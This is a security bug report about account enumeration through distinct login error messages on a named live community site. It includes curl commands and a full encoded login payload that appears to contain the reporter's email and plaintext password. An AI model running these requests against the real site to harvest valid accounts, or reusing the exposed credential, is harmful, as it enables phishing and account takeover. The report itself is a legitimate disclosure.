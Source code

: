 ```yaml
---
name: "🐛 Bug Report – Account Enumeration via Login Error Message"
about: "Login form leaks account existence via distinct error messages."
labels: ["bug", "security", "needs-triage"]
assignees: [hasanwlip]
---
```


# 🐛 Account Enumeration via Distinct Login Error Messages

The login form leaks whether an email is registered or not based on two different error messages.  
An attacker can use this to enumerate valid accounts.

---

## 📝 Environment

- **URL:** [https://community.silabs.com/SL_CommunitiesLogin](https://community.silabs.com/SL_CommunitiesLogin)
- **Content-Type:** `application/x-www-form-urlencoded; charset=UTF-8`
- **Platform:** Salesforce Visualforce (ViewState + session cookie)

---

## 🔍 Reproduction Steps

### 1. GET the login page

```bash
curl -s -c cookies.txt "https://community.silabs.com/idp/login?app=0sp16000000PBKn" -o login.html
```

- Capture the session cookie and the hidden fields `com.salesforce.visualforce.ViewState` and `com.salesforce.visualforce.ViewStateMAC`.

---

### 2. POST to the login endpoint

```bash
curl -s -b cookies.txt -c cookies.txt \
  --location "https://community.silabs.com/SL_CommunitiesLogin" \
  --header "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
  --data-urlencode "AJAXREQUEST=_viewRoot" \
  --data-urlencode "j_id0:form=j_id0:form" \
  --data-urlencode "j_id0:form:username=<email@example.com>" \
  --data-urlencode "j_id0:form:passwordBox=<password>" \
  --data-urlencode "com.salesforce.visualforce.ViewState=<VIEWSTATE_FROM_PAGE>" \
  --data-urlencode "com.salesforce.visualforce.ViewStateMAC=<MAC_FROM_PAGE>" \
  --data-urlencode "j_id0:form:loginButton=j_id0:form:loginButton"
```

---

### 3. Observe the responses

- **Unregistered email** response:

```html
<label class="error">Your email address was not found.<br />Please try another email address, or <a href="https://community.silabs.com/SL_CommunitiesSelfReg">register</a></label>
```

- **Registered email** response:

```html
<label class="error">Email or password invalid</label>
```

> **Important Note:**  
> The `ViewState` and session cookie **expire immediately after each GET request**.  
> ➔ Always perform a fresh GET before each POST.

---

### 📸 Screenshots

- **Successful login attempt response (HTTP 200 + login form error shown):**

![Login Response Screenshot](https://github.com/user-attachments/assets/6a916170-e83f-4d72-8956-58e73af6d608)

- **Unregistered email login attempt (Email does not exist):**

![unregistered email version](https://github.com/user-attachments/assets/3332d63c-bc8d-4d75-b81b-1680037b6ed4)



---

## ✅ Working Test Payload

Use the exact payload below to verify a successful (HTTP 200) login structure.  
Replace the `ViewState` and `ViewStateMAC` with fresh ones.  
**Important:** Preserve full percent-encoding (%2F, %2B, etc.).

<details>
<summary>Click to expand the full working payload</summary>

```text
AJAXREQUEST=_viewRoot&j_id0%3Aform=j_id0%3Aform&j_id0%3Aform%3Ausername=hasanwlip%40protonmail.com&j_id0%3Aform%3ApasswordBox=147258369hHzZs%40&com.salesforce.visualforce.ViewState=i%3AAAAAWXsidCI6IjAwREEwMDAwMDAwTDJrSSIsInYiOiIwMkcxTTAwMDAwMEQ5YVEiLCJhIjoidmZlbmNyeXB0aW9ua2V5IiwidSI6IjAwNTFNMDAwMDBBaWJhUCJ9gAKLIGvX0fDfSDsXoKL2Ayl9kZ42SBoV3TfUMwAAAZZpsBhJvwvi0TBYeFuILrJuqB88dJzXQybsZPGOw7563WO7u%2F1Vioif5Boy0D4AaM0WvnCUohyx3HAuupE0a9qFvBeJDoYXrVCbDRH02L0ZSPu60tu7gbCPkKHfpn%2FtRG1BOcrF0gKPCvVV3WiNttKarOEOsuTtxUsqx%2BK4I5PYVZ4Jdgev3ChMoM%2FGNJkW5LzZOtH4FYe6w98okHAXIcRLTtTxS8r709zq6WUADLDMRsKL2Z%2BwDTMZp6yL1mczzNuHD3WW0oL9SvIayxRMSixdVBYoXWM%2BHCzLYce6Odm0OVVy0BfyJrzMFjvRUkUwPUpsVH%2Bq6HAOOvaTmZiNblJj1U5XeqNcZ0%2F%2FIuj1KqMZuDR3GofeHNhmVsi9v4I26qD4fuY2dE5ajl5ZYYZ8oYpeep0SAsXtB40fJdMNmv%2BLTSd3AQDsvKMDt6mNoqWprofPNVcVDi%2FadmxljO8ygJ6OuD1kkOyPkGSoD1tLXBZpJ5dkE%2FQmt5tUq8YJk51O%2BCdvx%2F3%2FzpyTHghKMciRFDOqoBx7ZgVN8%2Fk5sFqszfklsEnvRw6HVex76SEMRWt2Q53YHIMBpeQ1LRJzf6psGs41DX2NDi9OQQSSTrzagRwwQwEeT9k7xITiKyITkL%2Fx7QLi%2F2pj3PfImdAKN116ZdDyfNG3YbgqY%2BYDRdo%2FW1MVC8PDU8E53L2s37%2Bu4o0SwjBmPD1NuBNFRpOFq%2Fp0zIc9VzUQfOrqhlA0aGYrx3R0luMyOzdBUS0Y53GymZfUWwVWGwmnluneL76lxFgPdxov0Kvn6TqCJoGVKnhHAA%2FbMP8hoIe48jyMJaM2mZzmVnMaJIxdfqN4I5%2FKR6UFJHyugdq3VwRG%2B3lW4OamY3lqoIHo6TCXMqfimscjvmlYsWlC%2FkzaompWyfuA2yyOpGWnllGWTHLRUaEdoNK1Xcu3maURl57nwJwfOzDwr%2BRqxKFGGesF%2F3sb96HSXy9cmc4OzqeZL%2BY%2FWP%2BfithVjeedo5zTQMUNXuZYnCtp9N0A45jmr5M3CkhU270xB0uSNxV5yS%2B8HPCxzpnqq192Elznzjf4fs0MIwFuQUHg0q8P21fi9NQQisHq2cOgm3KUQjXabw3Ngn2MBhAY5IXW3Aet2SSzgP7cGBznl%2FSTzbFN%2B3%2FgnmA5RFg00ws%2FAkrlj7vLwQ1w11Ec8a6uatbiwHqzerSgz3zUh1BVh7ePzi6%2FW0q%2BGqU65wU73U6nAIPRM%2BBVijhL5vMampaLOQmwT%2FfOXCDoU4Rutt9gULNtOwm1%2FCEBDaGJZFk2tqnfDcSOEGWPOuKf%2BartzUbkry0KWsxalmnVSneR0bVIovctYoaAKPl7iqzNcF9MNbBwI%2BslOAd1HJsXzYcCwWBi5dUCQ5vvdXbAmbP25Pm3eF50gWSaexeAceHo%2F6varFZHG9rCKftF0103PK7mBCkXcuIwYbk4LEYlQleT0Trs%2BjC15H0d%2FZws5CI9Qjx7bob2epa2laxoHuf6%2FUuH344cMqU3TtvpoAVS9uAr3vOwIsoD6R5Ss1hN%2FkkNi%2BIcw1mE80N%2FbhnIhF5j2JIgORofRShqeELs0%2Bk%2BmFMliNejJCr8CVTw2aku3n0zXR4V5h3ZfsSzZ6A93urF6BF3K2PwMet4PUPKtFlu4yn7FqTX2jQjLX7ekLGcWM72Hq8vPA1IPscU7pWeRqupA%2Fwx8FKimjGP3jsLECYMOycKweG7sjUR%2BsOErtwxm4nGEAfMnFvFqP4pKX1Aim0R5M1%2FMSb0%2BH9JeMmURKRnSFMn40wHtfr90O7%2Fyar2cwZQs78UZ3AoKvb72EkS3ZgjVJxmvzjW4i5kH3XKCFm347JYN01M0oHUnTIlE50bIC03ktX5eOhz5XyUvvplGzJpnhElBNDgWCpJWkh3oBsxKW18Wtojag00W1IcEAICxM45e1nf95RyToYo8XSP6fB8VAZvms5s%2BR8%2Bpx%2BA3%2FkT7FhS8q0kT0%2FRmpv5oCJA0Y44s3ANs8Za%2BKhtfCiilvv7uzzQc9SRS3%2BdI1jSr7uEyP%2Be5JOdysC%2Ft6sZuTvHngHFfPyb7gCXcDfRhmogZrBYJao6ogkHMRN4tySGIAVpNEZI3%2FJEypyuM9fbmkV23aZ4%2BDk%2FWwnR66hEIds0T42ib2Ikw%2FFRq2325J8mUJKyMv%2FggFbIIsP0%2FwD1qZZpaEC9j9u3aNU1rMW46HMWITAzsr%2BKMNQfAEjUuGp93PiagFnIyLwIwZf77io%2FDVFTHPm0a1S4uoyLPztt2FaL6CMDb3VNN2AA5tvqGZECgPhlsee3KMf0ggBNkPcQmRVTEFPtJAld7Ob17AnXuqjaPEajTSEfZIbCpPjKTxWUFvvcoDkT56eMqOXzfu9WO5y%2BrlbpRyrPhgdpQ116CLkMeKVpbmzTbaN7UsCwQ8llU1ZbqH4%2BV8z35KV%2FooHD%2BXrVwcvQkEl%2BToqRcFcPVYnsSxJHxhva8pLfbiRhprdXcruvCK4ptWCairZUDvV8bvBq%2BEHaPyzgcG%2FkdxyLYAmcrWIXXfhZGlnm6jwVV30paaA67OBGMvQLsemlOWyFnGHS1el8E9djjyv7ykCzjVMmrLuCGbVRWyQk7bOdqI%2BoEwOu9oX3jBygJT1VqCfS92v7nNRL2rHb5ARTGJXthIC307bhyrEFDEPFeYaqOm2MPnc8saJA903Lw%2B1C26k9axSL0LoByu2c2rce%2BnDD83v9WMbxChJU36%2FfYLXAqNpAfyKfAwsodT4nG18CN6n8FlRW4JiNECEvp%2FQ6RQnUvNBduI9%2BYwUh0rM1FoDpQRh2SrwNCnT0XhUcl3YP%2BH181KmdClUFGkvhipBfmXMcVJWhmMbu9dXgnR%2F24wIzSB7AjBlAh6UUlRrH%2BieKeUZ%2FYbNVQoU7eMM4NQtWvz%2BVwDGkd64%2F4J2Fyhi7hX5vGmEfm%2FWdT4FqyBEaAzee5uwFQhDa1xUr515IOJfSALcZJTJMsL9ZgLODp0YTfKc2tfeADHzw%2BtjaycGsQg4LSB1e7eWCnxiu69rV6bBpOGusngc9Kp2pXYWkPRrXbtCxhHLC1bWIMHkbimVqf%2FzvUwv27zYcW0U%2F3XXuwLTEMXsiS2rtN3xgddtrd0L%2FHAG34J1OE4DqRGbX7bbn210Mn49DLLapPS9Dt4e3djDmQr2mGM04HNBxY%2Fl%2BiBj1BSHeJa7WS%2F%2BpAlXE%2BDZc9S6FztK2%2BNV5%2FFXibl679NrhILQptkC1XMYKEvt7sbVbdxddvJADfGSaXyv13PGUdQ5o4VlXbBluHg4ISqjlgO%2F1zDQlEgD9rgiMuh2SErw0jROoDyn2RHdCWbUUM8gLQOCyPHBtRA3IJSR%2BeItA1XJWLprSdiWiMXuZE97X%2F69WuZ1EipGFa%2Bj0fl1f5VC3FIG1myygMenBZ%2BXKFFp2M%2BYW9TxCwQ4IJOfjZ92KHQFwrB4c2PJKseSPPErvTWqQqJey66YYqx1yMG10I4GaSO8Pc7ZgIPJURqNoi8vWtDLf6Z3wet95vU%2FwxvA6Dtor6NK13Vv2iZTaLwrk0G%2Fg8RH7zzGkjgpRMKTqdAN7maOyPf4do7VpFZJug80S3bB8GLai8vKwTn0Si2A3l7IleeWMolFAH2SREJko219jVA2k02m4ZY4gWFxEJcgS5gcW5O727Y61RyZdLRYLEyatVWrjvFx4RZLoYaUZWl4K3C2Mm7YW2pVgfT15S3H72WTGd8WsbGNsgrvoyRoGc3F%2FwDHsZrFg3LHC6Vyo5qlvMPYmTvrV%2Fn69%2FXMLeVAEsz5KJHQ7GmoBNV%2FwWEngkJaG%2FhiAKyEd%2BrGwWdKia06xR5OtaEojYsQLwJCDmOGHnrPhL2E0I0WxGwdSGe2V3hXWK1xIiEwoWFdqjBbNAi%2B6zjVofSQ%2F1AnpfRzmwvCsoRkrhiJTU%2BOv3jzUeG%2F6IoKqlrNmyKl70fpN%2BHNzgQxE94K9gscXKOAfDat3jWvQrLXrzw8wYh5%2Bb9V7E0jurybnzG79mcRQR6r1UGjhJ1vEP0SZqwvz1Mw73J%2B7AQnfwYEBGH5oAUjDdvxk8gvD%2FBgqlAb01yLra3T0erhqeDnP%2BLN9kscFgIO4noeyAL7g3lSQ78udl3i1TL%2F84DNV%2BGdLPDkRhRMemiMHxHQUbVSA4g50%2FwT49nz7bffRNkphiR0IosuNSoumHfaBCFgOH92nmocd8U8AJwSXosrXBnyA%2BTHmpvKx7z2U5M%2FxenzR1l6RRUFZVQhi5ndX%2BqiTrqpSYy0bvYmOn8tKzSgyDJJkrUJdr5LGLwjwz5ViOaouHny3AIoVlN%2FRj3kzJAhmpYdO5LygIk9jd0tFX%2BWh3sSdNgGFBG4uPRqNNmpaxUh0OOuLLLi%2FQkUMKjgY1FEDoostz%2F%2FMDObx528d9iuV%2BnwaZm8wA3Log1ZNfoodA%2FytkSpCNqK8C2l2vxYveVwJy2ltrJTugjeMPr3wKb7gQHfz0O16sm9clfpzC3rBkbHulYUra08LGFzFvU5scwzWCv8nvitGWso%2BQeIDp2xk6oZQdbh2PczZvqf6tTfCN2lZ22MwijwBESZdrGz3Iu%2FgaBLPVDaktfYGtK8qfLEjuSxQKWOuyUy6q0LrfJMlBj%2Fa0O%2Bf0uvkywQyEi3SgaloOrHUE1FBCEGKb0H4sZUs3mYD40xwHM%2By0JIIWrcaR7jolVz6IxpT7V3vxgwNl%2F4x82SE21JZjZQ%2FwBtlxUMiDf1AMGd%2BsDvVvLuqsylDtFpQVS0KcDelL9E2bOTyQw5N3XvIHgYp5Kb7IQF8fecKJQbp411uAwuVEr1ec%2BZSjrVjDxsH5y7tdTBIlVxrc7RNkaYs36gyJtvEUJmykUr5oo4mBFPRE2Yp7AT0cly8UA7soatSPJaLiRj9z7jFnNdT8brs%2FmvwCdjn2Ne%2B8xcUZMqxrBDG5np0UeHIbZ4zbLCFUyLLmbl534Fsy1HVs24g3rw9UhSY%2BACxa8AsvJlvZ4DynLrjA%2FEKib%2F4V8zCLrHjA7YDW%2BKaixTMZbNvhwBUqbPvlC%2BAHmsySW9AIulEqZCv4CkI9Mx4yJFTHy7kQSEfKIFWwKO3j5y3sGhJZ5fqUbgRkf%2FsvQsMcd1lwqTqZxFvQ%2FBp64S3UqOSNqn1I9jvLZxUWwSMaev1D5pAzMicVPOXiLnsWMosiptt6p%2FUQKKe5WrdyRdqO36DQp8ENhJwhnEvVzf8b8NfweqCEWhFnLy3a3ea3MU7oe9AYMgb18A4dZWryC92F8pdma8DzezJwqMraVi%2Fyl6JK%2FcQX3HoOY38veelP86eEXBqErPDC8qxRkqqEGgb5DxLS%2Bga88HKr87P%2F0LPCV%2Bk4D6HG8uDgEKnY%2B2cktt8U1Zw0206YJgqVpnQWz6ZDr0it7TvPzFflhfsD4n%2FE7RGITuH82T0UkUVBaRIhOLECdGQUWG8rYSO5FY53K3ydRRp1BGSLfkxHPcvvp1mtF12cNO8m3MixL9JLPeOjMSEaLbErzqmlNC073sviORTRgmbZFypOdl6a59XjQ6yUY%2BxGQxVIBAsD%2Fxn8lVAYNm0IKmRQr5rconJvsuZDPaQvjsFfsmFDoLP9Mh4rUUwPgR1kZ1S0P66eCe7ttsNE1HJcUDwWMHr81In8GpX4F5swIlYMz%2BuxJjk63Vh0auw89PD%2B4tA6w30llApjO6b%2BMRf19IjncA4as7XRnS8upjEilSTCdY%2FVBh88qbfO9fJR%2FVWg5r5%2BqVVV3dfiZw%2FF7ZyJz7Joc67zpHSLjY1ux7RTeDJYpvqkCBpYdqO7LZvpwMF6DXqIvwoPk9jc3p1XWBa0Vm5SZOOkeucn4WO9YBNJNAfuGiDLn4pCryW3zhzAeWe%2BWkJW5Glsb%2Bqg8o%2FmlO5qqOwp09GKz2qXnI%2FIb2oaZS3vLNBoqViumW15FRVZckNYQ1KcwtvJ2mdtlJC4J830yBWqe0EJ7nJvm5pAhzB91l%2B631JgDqlYOWnRMJHmKBwfunxCuYJNZjtksG3xvHvnjQgFy5KRVqCKWhd4CiPTDErbmcHViCvPFID6HF0nkc4xMZXYyeVZQsyes9RXTq3kLY2a8Mvg1ENaBiZc%2FRXg1X%2BDKTVxI6UAhZGt%2FTbDZ2o17K9Lb9SRGDWOCt14WgxmmhfAAyk6LvKuVJa8FYMj6KP5xHVrtByHSiLGzqpSpKjQvlHdDqWUHmHbA52YNsDaCf30W2WQhzIsRE%2Fws9Y%2BPKv6UOR4w9NjN%2FunVHAW%2B0RTN9CFrrFo0fqDxwoJdshJVxLlHHd5QMzwOzdgTvtG4lsCo5AUg%2FKI4K3jcH1869I4QPBaTX972LpKwkDXwE2mS6Zawk1kFCo7LcDqGMR9ax4Q4mBx2wAPPk6kxh0bNCxk261hB1w029cfSLGPD9WMViolkXW5RXM2Gpkstt4jTpelFu6tfopvgeJtXM%2BLjalJYP8BlNGW2pa461KJISb%2FUIOJLY4F7v4iVtzj32rBDRDEUu8GVG1VvvshzrjJm4%2Bh0%2FuQ22WBpLiZ8MjRiFKzM429tbkmFDa2WnKkcM7hpttoI3Q%2B0Mbu8LrA9hLqG%2F6ihTXwi2nRQl95R3I3Emfobs995TV36osv9cFCUkoKItj9jOxDBFqYvwqd7Pk31IjqdUv&com.salesforce.visualforce.ViewStateVersion=202504230234207177&com.salesforce.visualforce.ViewStateMAC=AGV5SnViMjVqWlNJNkltcG5TMFJ2VEdGTlVIcDVWbGN3ZGxkNE5UaFRTM1JUZGt0cE1tSlJXRlpsWmxoV1RUZEJkM010VTBGY2RUQXdNMlFpTENKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUlzSW10cFpDSTZJbnRjSW5SY0lqcGNJakF3UkVFd01EQXdNREF3VERKclNWd2lMRndpZGx3aU9sd2lNREpITVUwd01EQXdNREJFT1dGUlhDSXNYQ0poWENJNlhDSjJabk5wWjI1cGJtZHJaWGxjSWl4Y0luVmNJanBjSWpBd05URk5NREF3TURCQmFXSmhVRndpZlNJc0ltTnlhWFFpT2xzaWFXRjBJbDBzSW1saGRDSTZNVGMwTlRVeU9UZzNNRFF4TUN3aVpYaHdJam93ZlE9PS4uODVGMTF0NEswZDNlaU5QcWRzREptRDRCRzQ0akxQM0JrNlg4Mk9LbXhpTT0%3D&j_id0%3Aform%3AloginButton=j_id0%3Aform%3AloginButton&
```

</details>

---

## ⚠️ Encoding Note

In the payload above, all special characters (/, +, etc.) in the ViewState must be fully percent-encoded (%2F, %2B, ...).  
**Any raw + or / will break the request.**

---

## ❌ Actual Behavior

- Unregistered email → “Your email address was not found.”
- Registered email → “Email or password invalid.”

---

## ✅ Expected Behavior

Return a **single generic error message** for both cases to prevent account enumeration.

Example:
> **Invalid email or password.**

---

## 🚨 Impact

Attackers can enumerate valid emails and launch targeted phishing or brute-force attacks.

---

## 💡 Recommendation

Normalize the login error response to:

> **Invalid email or password.**

---

## 🗓️ Timeline

- **2025-04-25:** Issue reported.

---

## 📂 References

- OWASP A05:2021 – Broken Authentication
- Salesforce Visualforce Security Best Practices

---
